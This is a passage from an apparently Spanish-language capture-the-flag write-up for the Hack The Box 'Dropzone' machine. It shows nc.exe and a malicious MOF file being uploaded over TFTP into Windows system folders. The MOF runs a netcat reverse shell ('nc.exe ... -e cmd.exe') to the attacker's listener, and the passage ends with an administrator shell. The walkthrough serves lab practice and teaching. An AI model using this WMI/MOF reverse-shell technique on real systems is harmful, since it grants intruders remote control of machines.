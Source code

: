 Listo, hagámoslo permanente:

```bash
❱ sed -i 's/\\\\/\\/g' payload.mof
```

Ahora, volvamos a intentar a ver si ese era el problema:

```bash
tftp> binary
tftp> put nc.exe /Windows/System32/nc.exe
Sent 38616 bytes in 8.3 seconds
tftp> put payload.mof /Windows/System32/wbem/mof/payload.mof
Sent 2218 bytes in 0.7 seconds
tftp> 
```

Y en nuestro listener:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
connect to [10.10.14.10] from dropzone.htb [10.10.10.90] 1066
```

TENEMOS RESPUESTAAAAAAAAAAAAAAAAAAaaaAAaasdfasdflkjasdgklñ!!

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139google_gif_muppetDance.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 40%;"/>

Listoooooooooooo, podríamos generar un payload con `msfvenom` que al ejecutarse nos lanzara una **Reverse Shell**, pero probando con el mismo `nc.exe` podemos indicarle la instrucción de siempre:

```mof
...
ScriptText = ...ns.Run(\"nc.exe 10.10.14.10 4433 -e cmd.exe\");} catch...
...
```

Con eso le indicamos que una vez se obtenga la petición en nuestro servidor (listener) nos lance una `cmd.exe`, o sea, una terminal (:

Subimos los binarios y en nuestro listeneeeeeer:

![139bash_administrator_revSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/dropzone/139bash_administrator_revSH.png)

Perfectisimoooooooooooooooooooooooo, no tenemos habilitado el comando **whoami** ni `echo %username` para ver con que usuario estamos, pero, si logramos escribir en esas rutas tenemos constancia que somos administradores del sistema :P

Veamos las flags:

```powershell
C:\>dir

 Volume in drive C has no label.
 Volume Serial Number is 7CF6-55F6

 Directory of C:\

09/05/2018  10:39     <DIR>          114de795ed2964dbe35a
09/05/2018  05:22                  0 AUTOEXEC.BAT
09/05/2018  05:22                  0 CONFIG.SYS
09/05/2018  08:50     <DIR>          Documents and Settings
09/05/2018  10:41     <DIR>          Program Files
10/05/2018  02:49     <DIR>          WINDOWS
               2 File(s)              0 bytes
               4 Dir(s)   7.634.173.952 bytes free

C:\>
```
